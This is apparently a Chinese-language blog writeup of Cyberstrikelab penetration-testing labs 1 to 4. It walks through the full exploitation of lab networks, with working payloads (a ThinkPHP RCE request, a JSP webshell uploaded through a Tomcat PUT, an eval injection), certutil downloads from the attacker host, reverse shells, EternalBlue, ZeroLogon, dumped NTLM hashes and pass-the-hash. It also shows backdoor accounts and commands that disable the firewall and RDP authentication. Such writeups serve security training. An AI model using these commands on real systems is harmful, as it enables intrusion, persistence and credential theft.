# Cyberstrikelab Lab1-7 Writeup


Cyberstrikelab lab1-7 Writeup

# Lab1

**难度: 简单** 

目标：本次小李的任务是攻克 192.168.10.0/24 网段的所有主机，刚开始挺顺利，但深入后发现里面的情况远比想象中的复杂。

**信息收集**

使用 fscan 对 192.168.10.* 网段进行存活、端口及漏洞扫描，检测出了 thinkphp5023 漏洞



站点如下


## 边界突破 - 192.168.10.10

### ThinkPHP 5.0.23 RCE

**工具库利用**

使用 ThinkPHP 漏洞扫描工具进行历史漏洞扫描，发现大量 thinphp nday 都能打通





上传一句话木马文件



蚁剑连接成功



**手工利用**

再换一种手工利用的手法

```
GET:  http://192.168.10.10/?s=captcha&test=-1
POST: _method=__construct&filter[]=system&method=get&get[]=whoami
```

执行有一瞬间出现命令执行结果，然后跳转至 404 页面




接下来手工利用反弹 shell，nc 开启 22222 Port



生成 powershell 反弹命令，IP 选择 OpenVPN 分配的 IP 172.16.233.2



Base64 编码并执行，注意关闭防火墙或设置防火墙配置



成功得到 Shell



直接 > 写入一句话木马发现每个字符间存在空字节，导致 PHP 解析错误；

系统内有 certutil，使用其下载本地准备好的一句话木马



本地开启 python web服务



```
certutil -urlcache -split -f http://172.16.233.2:22223/1.php
```



一句话木马文件下载在网站根目录，蚁剑连接，成功



C 盘根目录拿下旗帜一



**上线 CS**

上传 CS 木马并执行



机器上线成功



禁用防火墙

```
netsh advfirewall set allprofiles state off 	//关闭所有防火墙，winsows server 2003 之后
netsh advfirewall show allprofiles   //查询域、私有、共有防火墙状态
```




**3389 远程桌面连接**

开启 3389 端口

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
```



添加自定义用户

```
net user abcc 123@abc /add
net localgroup Administrators abcc /add
```



尝试远程桌面连接



身份证验证导致的错误，直接禁用掉身份证验证

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```



再次尝试，成功登录



**数据库**

翻阅 phpstudy，找到数据库用户名密码

```
root/cyberstrike@2024
```



尝试使用 phpstudy 文件 mysql.exe 登录数据库，失败



phpstudy 中MYSQL并没有开启，尝试直接点击启动，会马上跳回关闭，启动失败



很奇怪的状态，对方是有 3306 端口使用的，我尝试查看当前 mysql 状态

```
sc query mysql
```

state: 1 stopped，当前 mysql 并没有开启



接下来登录管理员命令行开启 mysql，Windows Server 2012R2 环境较老，win + R 在运行启用管理员命令行失败。打开任务管理器，点击文件，运行新任务，勾选以系统管理权限创建此任务，确定。





启动 mysql 服务

```
net start mysql
```



再次尝试连接 MySQL，登录成功





创建一个允许远程连接的用户并给予足够权限

```
CREATE USER 'aabbcc'@'%' IDENTIFIED BY 'aabbcc';
GRANT ALL PRIVILEGES ON *.* TO 'aabbcc'@'%';
FLUSH PRIVILEGES;
```



拿下数据库




## 域渗透

**内网信息收集**

外网机器是双网卡，目标内网还有一个 192.168.20.X 网段





**Fscan 扫描** 

使用 fscan 对 20 段进行扫描

```
fscan.exe -h 192.168.20.0/24
```

发现 20 和 30 都有永恒之蓝漏洞

```
192.168.20.20:139 open
192.168.20.10:139 open
192.168.20.10:3306 open
192.168.20.30:445 open
192.168.20.20:445 open
192.168.20.10:445 open
192.168.20.30:139 open
192.168.20.30:135 open
192.168.20.20:135 open
192.168.20.10:80 open
192.168.20.30:88 open
192.168.20.10:135 open
[*] NetBios 192.168.20.20   cyberweb.CSLab.com         Windows Server 2012 R2 Standard 9600
[*] NetBios 192.168.20.10   WORKGROUP\WIN-KOHRC1DGOL9           Windows Server 2012 R2 Standard 9600
[*] NetInfo 
[*]192.168.20.20
   [->]cyberweb
   [->]192.168.20.20
[*] NetInfo 
[*]192.168.20.30
   [->]WIN-7NRTJO59O7N
   [->]192.168.20.30
[+] MS17-010 192.168.20.20	(Windows Server 2012 R2 Standard 9600)
[+] MS17-010 192.168.20.30	(Windows Server 2008 R2 Standard 7600)
[*] WebTitle http://192.168.20.10      code:200 len:25229  title:易优CMS -  Powered by Eyoucms.com
[+] PocScan http://192.168.20.10 poc-yaml-thinkphp5023-method-rce poc1
```

### 域控 - 192.168.20.30

**CS 派发 MSF 会话**，先开启MSF

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST 172.16.233.2
set LPORT 4777
run
```

CS 启动监听，配置与 MSF 一致



选择 192.168.10.10 会话，spawn 选择刚配置的监听，点击 Choose，MSF 成功接收到 CS 的会话


MSF 配置路由

```
run autoroute -s 192.168.20.0/24
run autoroute -p  //观测路由是否添加成功
```



MSF 设置 Socks 代理

```
search socks || use auxiliary/server/socks_proxy
set SRVHOST 172.16.233.2
run
sudo vi /etc/proxychains4.conf  //修改配置文件和选项设置的一致，且注意sock4、sock5一致
```



永恒之蓝漏洞利用，尝试模块，发现 ms17_010_command 能够被利用

```
search ms17_010
use 19
set COMMAND whoami
set RHOSTS 172.16.233.2
run
```



```
set COMMAND 'dir C:\'
```



```
set COMMAND 'type C:\flag.txt'
run
```

拿到第二个旗帜 



```
set COMMAND 'net user abcc 123@abc /add'
set COMMAND 'net localgroup Administrators abcc /add'
set COMMAND 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f'
```





远程桌面连接



.\用户名 登录，成功登录





### 域成员 - 192.168.20.20

这台机器同样爆出了永恒之蓝，但一直利用失败，不过因为我们已经拿下域控制器，所以可以换一种方式，去拿域控制器的 hash，对域成员做 PTH 攻击 

上线 MSF

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.20.10
set lport 23231
run
```

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.208.138 LPORT=6666 -f exe > reverse.exe
```

制作木马并上传，上传稍麻烦，因为隧道搭在 MSF，因此选择将木马上传到 192.168.10.10 主机上，通过 phpstudy 自带 php 开启 Web 服务，再通过 192.168.20.30 浏览器下载文件

```
php.exe -S 0.0.0.0:22222
```

访问并保存，运行即可



运行时注意管理员身份运行





获取 hash


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:94bd5248e87cb7f2f9b871d40c903927:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5bc02b7670084dd30471730cc0a1672c:::
cyberweb:1105:aad3b435b51404eeaad3b435b51404ee:2de5cd0f15d1c070851d1044e1d95c90:::
abcc:1106:aad3b435b51404eeaad3b435b51404ee:73f5d97549f033374fa6d9f9ce247ffd:::
WIN-7NRTJO59O7N$:1000:aad3b435b51404eeaad3b435b51404ee:a0cde4eb68e4a2345b888c83eed3b196:::
CYBERWEB$:1103:aad3b435b51404eeaad3b435b51404ee:fba62b6152431813b79b5e71c41b16d0:::
```

```
proxychains4 -q python3 psexec.py -hashes :94bd5248e87cb7f2f9b871d40c903927 CSLab.com/administrator@192.168.20.20
```


拿到最后的旗帜


# Lab2

**难度: 简单**

目标：公司派遣测试某网络的安全性。目标是成功获取所有服务器的权限，以评估网络安全状况。 


**漏洞扫描：**

对 192.168.10.* 网段进行扫描，发现 192.168.10.20 可能存在 CVE-2017-12615 历史漏洞，以及 192.168.10.10 74 CMS 

```
[+] PocScan http://192.168.10.20:8080 poc-yaml-iis-put-getshell
[+] PocScan http://192.168.10.20:8080 poc-yaml-tomcat-cve-2017-12615-rce
```


## 独立工作站 - 192.168.10.10

骑士CMS 渗透，我对 808 端口进行目录扫描，扫描的同时对 Web 页面进行初步观测，尝试寻找 SQL 注入、SSRF 等常规 Web 漏洞，可惜并没有发现有效入口点


常规字典下扫描也没有发现特别信息


渗透并不顺利，我转而在网络检索尝试找到更多线索，在某个官方文档中发现了该 CMS 的通用管理员页面路径

```
/index.php?m=admin&c=index&a=login
```


### 弱口令/爆破

直接输入错误账户名，会回显管理员账号不存在，这使得很顺利地测试出管理员账号名 admin


简单测试一下密码就出来了，靶机并没有在这方面上难为人

```
admin/admin123456
```


进入后台，我发现了目标 74 CMS 版本为 v4.2.111，依此找到了其历史漏洞后台 GetShell 


依次点击工具、风格模板、可用模板并抓包


tpl_dir 改为如下 Payload 

```
tpl_dir=','a',eval($_POST['cmd']),'
```

随后访问路径

```
/Application/Home/Conf/config.php
cmd=system('whoami');
```

命令执行成功，直接拿到了 system 权限


使用 certitul 下载文件并上线 CS


拿到第一个旗帜


## 域边界突破 - 192.168.10.20

### Tomcat 任意文件写入


接下来对 192.168.10.20 已经发现的 Nday 进行利用，手工抓包上传，Payload 如下

```
PUT /1.jsp/ HTTP/1.1
Host: 192.168.10.20:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Connection: close
Content-Length: 376

<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```


访问 JSP 一句话木马，命令执行成功

```
http://192.168.10.20:8080/1.jsp?pwd=023&i=whoami
```


Powershell + Base64 反弹，使用浏览器发送时注意对 Payload 进行 URL 编码


成功接收到反弹 Shell


拿到第二个旗帜


**权限提升**

上线CS 


```
whoami /priv
```

查询特权，发现 SeImpersonatePrivilege 启用


尝试使用经典烂土豆提权，成功接收到 System 权限级 Beacon


**远程桌面连接**

开启 3389 后连接报错，是身份证验证错误，直接禁用掉


```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```


连接成功


## 域渗透

**信息收集**

继续对当前主机进行信息收集

```
wmic computersystem get domainrole
```

返回数值为3，当前是一台域成员服务器


本地管理员组中含有 Domain Admins，该信息也在域全局组中，再次确认系统为域成员服务器


发现这是一台双网卡主机，还有一个 20.* 网段


fscan 扫描，发现域控服务器 192.168.20.30 且存在永恒之蓝漏洞


### 域控 - 192.168.20.30

msf 打永恒之蓝，通过 admin/smb/ms17_010_command 模块执行成功，拿到 flag


修改管理员密码，打开 3389 端口，拿下远程桌面


### 代理转发上线 CS

之前直接利用 CS 的永恒之蓝漏洞插件攻击 20.30 失败，而我对上线 CS 又有执念。于是我尝试通过 iox 代理转发，给域控上传文件并上线 CS，因为实际上只需要做一层代理隧道，所以操作并不复杂。

接下来 20.20 统称域成员主机，20.30 为域控

首先生成 CS 马，配置为 `192.168.20.20:29999` 。然后在域成员跳板机开启第一层代理隧道

```
iox.exe proxy -l 1080
```


proxychains4 配置文件修改，将流量转发至域成员主机，以此连接域控远程桌面

```
socks5 192.168.10.20 1080
```


然后域成员主机通过 iox 将本地 8888 端口转发至攻击机 28888 端口

```
iox.exe fwd -l 192.168.20.20:8888 -r 172.16.233.2:28888
```


攻击机开启 Web 服务，域控远程桌面下载 CS 马

```
certutil -urlcache -split -f http://192.168.20.20:8888/artifact.exe
```

接下来域成员主机通过 iox 将本地 29999 端口转发至攻击机 29999 端口

```
iox.exe fwd -l 29999 -r 172.16.233.2:29999
```

最后域控执行 CS 马，上线成功


# Lab3

**难度:** **简单**

目标：在192.168.10.0/24网段发现了不得了的秘密。 

**信息收集** 

探测存活主机、端口扫描、服务探测等，扫描全端口，发现 3590 端口开放了 Web 服务


## 边界机 - 192.168.10.10

**SQL 注入**

目录扫描，发现后台管理员页面


通过 taoCMS 默认账户密码登录后台

```
admin/tao
```


尝试数据管理 - 执行 SQL 模块


权限级低，没有任何插入、更新或删除权限，日志包含、文件写入等操作走不通了


taoCMS 还存在一个 SQL 注入的历史漏洞 CVE-2021-44915，可惜通过 MYSQL 获取 Shell 的条件很苛刻，也只能放弃


### 路径遍历 && 文件上传

继续对历史漏洞进行检索，发现一个可利用的历史漏洞 CVE-2022-23880


../../../ 访问根目录，下载 Flag 文件，拿到第一个旗帜


编辑文件，写入一句话木马，保存


网站根目录就在当前路径，访问指定文件即可

```
http://192.168.10.10:3590/api.php
```

目标是 Windows 系统，上传木马并上线 CS


## 域渗透

**内网信息收集** 

发现内网另一个网段 192.168.20.10，lab1-7 的网络配置都一样。。

```
arp -a
```


使用 fscan 对 20 段进行扫描


### 域成员 - 192.168.20.20

这台域成员机器甚至不需要进行漏洞利用，官方已经做了提示


端口及服务探测，发现 8055 端口搭建了 Web 服务


搭建内网隧道访问，发现对方用的是 ThinkPHP v5.0


找了半天也没发现有什么明显遗留的木马文件


只有找到两个 php 文件，index.php 和 router.php，使用一句话木马爆破脚本爆破一下


访问拿到 第二个旗帜


### 域控 - 192.168.20.30

**ZeroLogon**


使用 ZeroLogon 漏洞置空域控主机 hash

```
python cve-2020-1472-exploit.py WIN-7NRTJO59O7N 192.168.20.30 
```


然后拿下域控制器 hash

```
python secretsdump.py 'CSLab.com/WIN-7NRTJO59O7N$@192.168.20.30' -no-pass
```


远程命令执行 ，拿到最后的旗帜

```
proxychains4 -q python3 wmiexec.py Administrator@192.168.20.30 -hashes aad3b435b51404eeaad3b435b51404ee:f349636281150c001081894de72b4e2b -codec gbk
```


# Lab4

**难度：简单**

目标：今天的你是一位白帽工程师，你发现某公司暴露在公网的cms有极其罕见的漏洞，于是你决定帮忙进行测试。 

**信息收集** 


## 边界突破 - 192.168.10.10

5820 搭建了一个 Bluecms，这个 cms 有一堆历史漏洞


### SQL 注入

通过SQL注入拿到账户密码，密码是个弱口令，直接弱口令尝试都能进后台。

```
http://192.168.10.10:5820/ad_js.php?ad_id=1
```


爆库


爆表


### 路径穿越 && 任意文件修改

进入后台后充值中心 -> 金币充值 -> 在线支付并抓包


修改 tpl_name 至指定文件路径


然后就能任意修改文件内容了，添加一句话木马并保存


访问，执行命令成功


上线 CS


拿到第一个旗帜


## 域渗透

**内网信息收集**

内网信息还是和之前一样，20.20 是域成员，20.30 是域控

`

### 域控 - 192.168.20.30

这台域控依然可以使用 Zerologon 漏洞，通过其重置域控 hash


导出域内所有用户的凭证，拿下域控管理员 hash

```
aad3b435b51404eeaad3b435b51404ee:00f995cbe63fd30411f44d434b8dac98
```


登录域控


拿到第二个旗帜


### 域成员 - 192.168.20.20

PTH 攻击，拿到第三个旗帜，结束


=================

后面都是换皮靶场，不打了


---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/cslab-lab1-7/  

